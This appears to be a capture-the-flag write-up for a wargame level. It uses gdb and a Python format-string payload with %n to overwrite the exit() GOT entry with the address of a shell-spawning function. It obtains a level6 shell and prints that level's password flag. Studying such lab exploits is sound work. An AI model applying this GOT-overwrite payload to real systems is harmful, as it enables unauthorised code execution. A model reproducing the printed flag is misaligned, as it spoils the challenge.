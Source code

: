 ### Download binary
``scp -P4242 level5@192.168.31.170:/home/user/level5/level5 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)
There's a piece of dead code, the o function.
This one opens a **system("/bin/sh")**, so, our goal is to execute it.
``fgets`` is size protected to prevent buffer overflow, buffer's size is 520, the limit is set to 512.
We have to attack the Global Offset Table, which is a table that store pointer to function of the program.

----

### Building the payload

We want to build this payload :

**exit ADRESS (GOT) + o ADRESS + PLACE OF OUR INPUT IN STACK + %n**

``gdb level5``

**Getting the o function adress :**

``(gdb) info functions``
>[...]
0x080484a4  o

**Getting GOT adress range :**

``(gdb) info files``
>[...]
0x08049818 - 0x08049840 is .got.plt

**Let's find the function we want to overwrite, exit() :**

``(gdb) x/16wx 0x08049818``
>0x8049818 <_GLOBAL_OFFSET_TABLE_>:	0x0804974c	0x00000000	0x00000000	0x08048386
[...]
0x8049838 <exit@got.plt>:	0x080483d6	0x080483e6	0x00000000	0x00000000
[...]

**As usual we make a payload to see where we can put our adress.**

``python -c "print 'AAAA' + ' %x '*4" | ./level5``

>AAAA 200  b7fd1ac0  b7ff37d0  41414141

So, our final payload is :
python -c "print '\x38\x98\x04\x08' + '%134513824u' + '%4\$n'" > /tmp/payload

Why 134513824 ? Because o function adress is 0x080484a4, 0x080484a4 in decimal = 134513828.
We substract 4, for the first 4th bytes of the adress we wrote -> 134513828 - 4 = 134513824 !

----

#### Getting the flag

``cat /tmp/payload5 - | ./level5``

>[lot of spaces]
512

``whoami``
>level6

``cat /home/user/level6/.pass``
>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
